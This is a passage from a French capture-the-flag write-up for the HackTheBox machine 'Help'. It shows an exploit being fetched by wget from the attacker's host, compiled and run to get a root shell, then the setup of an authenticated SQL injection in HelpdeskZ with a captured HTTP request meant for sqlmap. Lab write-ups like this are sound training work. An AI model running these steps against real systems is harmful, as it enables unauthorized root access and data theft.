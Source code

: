 ```bash
--2025-08-27 05:09:41--  http://10.10.16.10:8000/44298.c
Connecting to 10.10.16.10:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5773 (5.6K) [text/x-csrc]
Saving to: ‘44298.c’

44298.c                                              100%[=====================================================================================================================>]   5.64K  --.-KB/s    in 0.01s   

2025-08-27 05:09:42 (384 KB/s) - ‘44298.c’ saved [5773/5773]

help@help:~$ gcc 44298.c -o exploit
help@help:~$ chmod +x exploit
help@help:~$ ./exploit 
task_struct = ffff880015b98e00
uidptr = ffff8800192f7c04
spawning root shell
root@help:~# whoami
root
root@help:~# cat /root/root.txt 
924b.....f182
```

## Bonus

### CVE : SQL Injection (Authenticated)
Dans un premier temps, on se connecte à HelpdeskZ à l'aide des credentials trouvés sur Graphql. Ensuite, on poste un ticket avec une piece-jointe (pas de fichier php, n'importe lequel suffit). Ensuite, on va dans nos tickets et on essaye de telecharger notre pièce-jointe. On intercepte la requête dans **Burp**, il suffit ensuite de l'enregistrer dans un fichier puis de le passer en paramètre de **sqlmap** :
```bash
GET /support/?v=view_tickets&action=ticket&param[]=8&param[]=attachment&param[]=5&param[]=10 HTTP/1.1
Host: help.htb
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:142.0) Gecko/20100101 Firefox/142.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://help.htb/support/?v=view_tickets&action=ticket&param[]=8
Cookie: lang=english; PHPSESSID=dh62bg5tt2j2gk4bofntn637q5; usrhash=0Nwx5jIdx%2BP2QcbUIv9qck4Tk2feEu8Z0J7rPe0d70BtNMpqfrbvecJupGimitjg3JjP1UzkqYH6QdYSl1tVZNcjd4B7yFeh6KDrQQ%2FiYFsjV6wVnLIF%2FaNh6SC24eT5OqECJlQEv7G47Kd65yVLoZ06smnKha9AGF4yL2Ylo%2BEWTAAjyRu71c6GI%2BULmLmTqISzoi3A27eA1M9ErCXvXw%3D%3D
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```
On enregistre cette requete dans un fichier **ticket.req**.
